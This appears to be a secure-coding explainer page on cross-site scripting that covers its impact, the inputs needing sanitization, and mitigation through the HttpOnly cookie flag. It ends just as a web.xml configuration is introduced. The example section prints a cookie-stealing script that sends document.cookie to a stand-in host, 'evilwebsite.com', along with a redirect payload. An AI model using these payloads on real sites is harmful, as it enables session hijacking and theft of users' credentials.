 ##Primary Defenses:
* Input Validation
* Output encoding

##Impact: 
Session hijacking, full control of page, malicious redirects

##Problem:
User controlled data returned in HTTP response contains Javascript code.

Below figure illustrates how simple XSS attack work:

[here] (http://www.acunetix.com/wp-content/uploads/2012/10/how-xss-works-910x404.png)

##Example:

```
Cookie theft example
<script>document.location="http://evilwebsite.com"+document.cookie</script>
```

In the above URL, the attacker can retrieve session cookie from the URL by parsing the URL.
It usually uses Javascript to do bad things like :

* Steal session cookies 

```
<script>alert(document.cookie)</script>
```
* Redirect to bad pages
<script>window.location="http://evilwebsite.com"</script>

* Rewrite page on the fly

##The main areas which needs to be sanitized before using in website are:

* The URL
* HTTP referrer objects
* GET parameters from a form
* POST parameters from a form
* Window.location
* Document.referrer
* document.location
* document.URL
* document.URLUnencoded
* cookie data
* headers data
* database data, if not properly validated on user input

##Sample code to prevent XSS:
There are several ways of mitigating XSS attack in web appplicaitons.Some of them are listed below:
* **Use of HttpOnly flag** - It is an additional flag included in a HTTP response header.This flag helps in reducing the risk of accessing the protected cookie at client side by the attacker (only if browser supports it).
* Also we can add the code below in the server side program to prevent persistent XSS attack

###Example:

```
Cookie cookie = getMyCookie("myCookieName");
cookie.setHttpOnly(true);
```
* Configuration level changes can also prevent XSS attack by applying the following configuration in the deployment descriptor WEB-INF/web.xml:
